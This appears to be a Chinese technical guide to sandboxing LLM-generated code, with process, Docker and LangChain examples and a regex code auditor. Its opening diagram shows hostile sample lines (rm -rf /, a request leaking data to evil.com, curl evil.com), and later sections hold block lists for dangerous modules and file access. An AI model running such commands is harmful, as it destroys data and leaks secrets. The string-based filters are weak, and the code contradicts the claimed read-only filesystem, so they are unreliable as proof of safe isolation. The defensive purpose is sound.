


# Agent 代码执行沙箱安全指南

> Agent 执行 LLM 生成的代码——这是最强大也最危险的能力。一段恶意代码可以删除文件、窃取数据、发起网络攻击。这份指南系统讲解如何安全地执行 LLM 生成的代码，覆盖从基础隔离到生产级沙箱的完整方案。

---

## 一、为什么代码执行需要沙箱

```mermaid
graph TB
    subgraph 危险 {"不安全执行的后果"}
        D1["LLM生成: os.system('rm -rf /')"] --> R1["❌ 删除系统文件"]
        D2["LLM生成: requests.get('evil.com/steal?data='+sensitive)"] --> R2["❌ 数据泄露"]
        D3["LLM生成: while True: pass"] --> R3["❌ 资源耗尽"]
        D4["LLM生成: import subprocess; subprocess.run(['curl','evil.com'])"] --> R4["❌ 任意命令执行"]
    end

    subgraph 安全 {"沙箱隔离"}
        S1["限制文件系统访问<br/>只允许临时目录"]
        S2["限制网络访问<br/>白名单或禁网"]
        S3["限制资源<br/>CPU/内存/时间"]
        S4["限制可用模块<br/>黑名单/白名单"]
    end

    style 危险 fill:#FFCDD2
    style 安全 fill:#C8E6C9
```

---

## 二、隔离层级总览



---

## 三、Level 1：进程级隔离

```python
import subprocess
import tempfile
import os
import signal
from dataclasses import dataclass
from typing import Optional

@dataclass
class ExecutionResult:
    """代码执行结果"""
    success: bool
    stdout: str
    stderr: str
    exit_code: int
    timed_out: bool = False
    duration_ms: float = 0

class ProcessSandbox:
    """进程级代码沙箱。

    安全措施：
    1. 临时工作目录——不访问主机文件系统
    2. 执行超时——防止死循环
    3. 环境变量清理——不泄露主机信息
    4. 资源限制——CPU和内存
    5. 模块黑名单——禁止危险import

    注意：进程级隔离安全性有限，
    生产环境推荐用Docker容器。
    """

    # 禁止的模块
    BLOCKED_MODULES = {
        "os", "sys", "subprocess", "shutil", "ctypes",
        "multiprocessing", "signal", "socket", "http",
        "urllib", "requests", "pickle", "marshal",
        "importlib", "builtins",
    }

    def __init__(
        self,
        timeout: float = 10,
        max_memory_mb: int = 256,
    ):
        self.timeout = timeout
        self.max_memory = max_memory_mb * 1024 * 1024

    def execute(self, code: str) -> ExecutionResult:
        """在沙箱中执行代码。"""
        import time

        # 1. 预检：扫描危险import
        violations = self._check_blocked_imports(code)
        if violations:
            return ExecutionResult(
                success=False,
                stdout="",
                stderr=f"禁止的模块: {', '.join(violations)}",
                exit_code=-1,
            )

        # 2. 创建临时工作目录
        workdir = tempfile.mkdtemp(prefix="sandbox_")

        # 3. 写入代码文件
        code_file = os.path.join(workdir, "user_code.py")
        with open(code_file, "w") as f:
            f.write(self._wrap_code(code))

        # 4. 执行
        start = time.time()
        try:
            # 设置资源限制
            import resource

            def set_limits():
                # 内存限制
                resource.setrlimit(
                    resource.RLIMIT_AS,
                    (self.max_memory, self.max_memory),
                )
                # CPU时间限制（秒）
                resource.setrlimit(
                    resource.RLIMIT_CPU,
                    (int(self.timeout), int(self.timeout)),
                )

            result = subprocess.run(
                ["python3", code_file],
                capture_output=True,
                text=True,
                timeout=self.timeout,
                cwd=workdir,
                env=self._safe_env(),
                preexec_fn=set_limits,
            )

            duration = (time.time() - start) * 1000
            return ExecutionResult(
                success=result.returncode == 0,
                stdout=result.stdout[:10000],  # 限制输出大小
                stderr=result.stderr[:5000],
                exit_code=result.returncode,
                duration_ms=round(duration, 2),
            )

        except subprocess.TimeoutExpired:
            return ExecutionResult(
                success=False,
                stdout="",
                stderr=f"执行超时（{self.timeout}秒）",
                exit_code=-1,
                timed_out=True,
                duration_ms=round(self.timeout * 1000, 2),
            )
        finally:
            # 清理临时目录
            import shutil
            shutil.rmtree(workdir, ignore_errors=True)

    def _check_blocked_imports(self, code: str) -> list[str]:
        """检查代码是否包含禁止的import。"""
        violations = []
        for module in self.BLOCKED_MODULES:
            # 检查各种import形式
            patterns = [
                f"import {module}",
                f"from {module}",
                f"import {module} ",
                f"from {module} ",
            ]
            for pattern in patterns:
                if pattern in code:
                    violations.append(module)
                    break
        return violations

    def _wrap_code(self, code: str) -> str:
        """包装用户代码，添加安全限制。"""
        return f"""# 自动生成的沙箱包装
import sys
sys.path = [p for p in sys.path if 'site-packages' in p or p == '']

# 限制stdout大小
class LimitedWriter:
    def __init__(self, stream, max_size=10000):
        self.stream = stream
        self.max_size = max_size
        self.written = 0
    def write(self, data):
        if self.written + len(data) > self.max_size:
            data = data[:self.max_size - self.written]
            self.stream.write(data)
            self.stream.write("\\n[输出被截断]")
            raise SystemExit()
        self.stream.write(data)
        self.written += len(data)
    def flush(self):
        self.stream.flush()

sys.stdout = LimitedWriter(sys.stdout)
sys.stderr = LimitedWriter(sys.stderr)

# 用户代码开始
{code}
"""

    def _safe_env(self) -> dict:
        """安全的环境变量。"""
        return {
            "PATH": "/usr/local/bin:/usr/bin:/bin",
            "HOME": "/tmp",
            "LANG": "en_US.UTF-8",
            "PYTHONPATH": "",
        }
```

---

## 四、Level 2：Docker 容器隔离

```mermaid
graph TB
    subgraph Docker沙箱 {"Docker容器沙箱"}
        HOST["宿主机"] --> CONTAINER["Docker容器<br/>独立文件系统<br/>限制资源"]
        CONTAINER --> CODE["执行用户代码"]
        CONTAINER --> LIMITS["资源限制:<br/>CPU/内存/网络"]
        CONTAINER --> MOUNTS["挂载:<br/>只读数据+临时输出"]
    end

    style CONTAINER fill:#C8E6C9,stroke:#2E7D32,stroke-width:3px
    style LIMITS fill:#FFF9C4
```

```dockerfile
# Dockerfile.sandbox — 沙箱镜像
FROM python:3.11-slim

# 安装常用数据科学包
RUN pip install --no-cache-dir \
    numpy pandas matplotlib scipy scikit-learn

# 创建非root用户
RUN useradd -m sandbox
USER sandbox
WORKDIR /home/sandbox

# 禁用网络（运行时通过--network=none）
# 限制资源（运行时通过--memory --cpus）
```

```python
import docker
import tempfile
import os
from dataclasses import dataclass

class DockerSandbox:
    """Docker容器沙箱——生产推荐。

    安全措施：
    1. 独立容器文件系统——与宿主机隔离
    2. --network=none——完全禁网
    3. --memory --cpus——资源限制
    4. --read-only——只读根文件系统
    5. 非root用户执行
    6. 执行超时——自动杀容器
    7. 临时目录——输出通过挂载获取
    """

    def __init__(
        self,
        image: str = "sandbox:latest",
        timeout: int = 30,
        memory_limit: str = "256m",
        cpu_limit: float = 1.0,
    ):
        self.client = docker.from_env()
        self.image = image
        self.timeout = timeout
        self.memory = memory_limit
        self.cpu = cpu_limit

    def execute(self, code: str) -> ExecutionResult:
        """在Docker容器中执行代码。"""
        import time

        # 创建临时目录用于输出
        workdir = tempfile.mkdtemp(prefix="docker_sandbox_")
        code_file = os.path.join(workdir, "user_code.py")
        output_dir = os.path.join(workdir, "output")

        with open(code_file, "w") as f:
            f.write(code)

        os.makedirs(output_dir, exist_ok=True)

        start = time.time()
        try:
            # 运行容器
            container = self.client.containers.run(
                image=self.image,
                command=["python3", "/home/sandbox/user_code.py"],
                volumes={
                    code_file: {"bind": "/home/sandbox/user_code.py", "mode": "ro"},
                    output_dir: {"bind": "/home/sandbox/output", "mode": "rw"},
                },
                mem_limit=self.memory,
                cpu_period=100000,
                cpu_quota=int(100000 * self.cpu),
                network_mode="none",       # 禁网
                read_only=False,            # 需要写临时文件
                tmpfs={"/tmp": "size=64m"}, # /tmp用tmpfs
                detach=True,
                remove=True,                # 执行后自动删除容器
            )

            # 等待完成或超时
            try:
                result = container.wait(timeout=self.timeout)
                exit_code = result["StatusCode"]
                stdout = container.logs(stdout=True, stderr=False).decode()[:10000]
                stderr = container.logs(stdout=False, stderr=True).decode()[:5000]
                timed_out = False
            except Exception:
                container.kill()
                exit_code = -1
                stdout = ""
                stderr = f"执行超时（{self.timeout}秒）"
                timed_out = True

            duration = (time.time() - start) * 1000

            return ExecutionResult(
                success=exit_code == 0,
                stdout=stdout,
                stderr=stderr,
                exit_code=exit_code,
                timed_out=timed_out,
                duration_ms=round(duration, 2),
            )

        except Exception as e:
            return ExecutionResult(
                success=False,
                stdout="",
                stderr=f"沙箱错误: {e}",
                exit_code=-1,
            )
        finally:
            import shutil
            shutil.rmtree(workdir, ignore_errors=True)
```

---

## 五、作为 LangChain Tool 集成

```python
from langchain_core.tools import tool
from langchain_core.messages import HumanMessage

@tool
def execute_python(code: str) -> str:
    """执行Python代码并返回结果。

    可用于数据分析、计算、可视化等。
    代码在安全沙箱中执行。
    """
    sandbox = DockerSandbox(
        image="sandbox:latest",
        timeout=30,
        memory_limit="256m",
        cpu_limit=1.0,
    )
    result = sandbox.execute(code)

    output = f"退出码: {result.exit_code}\n"
    if result.stdout:
        output += f"输出:\n{result.stdout}\n"
    if result.stderr:
        output += f"错误:\n{result.stderr}\n"
    output += f"耗时: {result.duration_ms}ms"

    return output

# 在Agent中使用
from langgraph.prebuilt import create_react_agent
from langchain_openai import ChatOpenAI

agent = create_react_agent(
    ChatOpenAI(model="gpt-4o"),
    [execute_python],
    prompt="你是一个数据分析助手。可以执行Python代码来分析数据。",
)

# Agent会自动生成代码并在沙箱中执行
result = agent.invoke({
    "messages": [{"role": "user", "content": "计算斐波那契数列前20项并画图"}]
})
```

---

## 六、安全审计

```mermaid
graph TB
    subgraph 审计 {"代码执行安全审计"}
        A1["预检: 扫描危险模式"]
        A2["执行: 沙箱隔离"]
        A3["后检: 分析输出"]
        A4["日志: 记录所有执行"]
    end

    subgraph 危险模式 {"检测的危险模式"}
        P1["import os/subprocess/socket"]
        P2["eval/exec(__import__)"]
        P3["open('/etc/passwd')"]
        P4["os.system/exec"]
        P5["网络请求"]
        P6["文件系统遍历"]
    end

    style 审计 fill:#E3F2FD
    style 危险模式 fill:#FFCDD2
```

```python
import re
from dataclasses import dataclass

@dataclass
class SecurityAudit:
    """代码安全审计结果"""
    is_safe: bool
    risk_level: str  # safe, low, medium, high, critical
    findings: list[str]
    blocked_patterns: list[str]

class CodeAuditor:
    """代码安全审计器。"""

    HIGH_RISK_PATTERNS = [
        (r"os\.system\s*\(", "os.system调用"),
        (r"subprocess\.", "subprocess模块"),
        (r"__import__\s*\(", "动态import"),
        (r"eval\s*\(", "eval执行"),
        (r"exec\s*\(", "exec执行"),
        (r"open\s*\(\s*['\"]/", "访问绝对路径文件"),
        (r"shutil\.rmtree", "删除目录"),
        (r"ctypes\.", "ctypes调用"),
        (r"socket\.", "网络编程"),
        (r"http\.client", "HTTP客户端"),
        (r"urllib", "URL请求"),
        (r"requests\.", "requests库"),
        (r"pickle\.loads", "反序列化"),
        (r"marshal\.", "marshal模块"),
    ]

    MEDIUM_RISK_PATTERNS = [
        (r"import\s+os", "导入os模块"),
        (r"import\s+sys", "导入sys模块"),
        (r"import\s+subprocess", "导入subprocess"),
        (r"import\s+socket", "导入socket"),
        (r"from\s+os", "从os导入"),
        (r"while\s+True", "死循环"),
        (r"for\s+\w+\s+in\s+range\s*\(\s*\d{6,}", "超大循环"),
    ]

    def audit(self, code: str) -> SecurityAudit:
        """审计代码安全性。"""
        findings = []
        blocked = []
        risk_score = 0

        for pattern, desc in self.HIGH_RISK_PATTERNS:
            if re.search(pattern, code):
                findings.append(f"高危: {desc}")
                blocked.append(pattern)
                risk_score += 10

        for pattern, desc in self.MEDIUM_RISK_PATTERNS:
            if re.search(pattern, code):
                findings.append(f"中危: {desc}")
                risk_score += 3

        if risk_score >= 10:
            risk_level = "critical"
            is_safe = False
        elif risk_score >= 6:
            risk_level = "high"
            is_safe = False
        elif risk_score >= 3:
            risk_level = "medium"
            is_safe = True  # 中危允许但需监控
        elif risk_score > 0:
            risk_level = "low"
            is_safe = True
        else:
            risk_level = "safe"
            is_safe = True

        return SecurityAudit(
            is_safe=is_safe,
            risk_level=risk_level,
            findings=findings,
            blocked_patterns=blocked,
        )
```

---

## 七、层级选型



| 层级 | 隔离强度 | 性能开销 | 适用场景 |
|------|----------|----------|----------|
| 进程 | 低 | 极低 | 开发环境、可信代码 |
| Docker | 中高 | 中 | 生产推荐、LLM生成代码 |
| 微VM | 最高 | 高 | 不可信代码、多租户 |
| WASM | 中 | 低 | 轻量场景 |

---

## 八、最佳实践

| 实践 | 说明 | 优先级 |
|------|------|--------|
| 生产必须用容器或更强隔离 | 进程隔离不够安全 | ★★★ |
| 禁网是最低要求 | --network=none | ★★★ |
| 必须设超时 | 防止死循环 | ★★★ |
| 必须设内存限制 | 防止内存炸弹 | ★★★ |
| 预检+后检双保险 | 代码审计+沙箱隔离 | ★★☆ |
| 非root用户执行 | 减少提权风险 | ★★☆ |
| 限制输出大小 | 防止日志爆炸 | ★☆☆ |
| 沙箱镜像最小化 | 减少攻击面 | ★★☆ |

---

## 九、检查清单

| 检查项 | 状态 |
|--------|------|
| 实现了进程级沙箱 | ☐ |
| 实现了Docker容器沙箱 | ☐ |
| 有代码安全审计 | ☐ |
| 配置了网络隔离 | ☐ |
| 配置了资源限制 | ☐ |
| 配置了执行超时 | ☐ |
| 能作为LangChain Tool集成 | ☐ |
| 有执行日志记录 | ☐ |
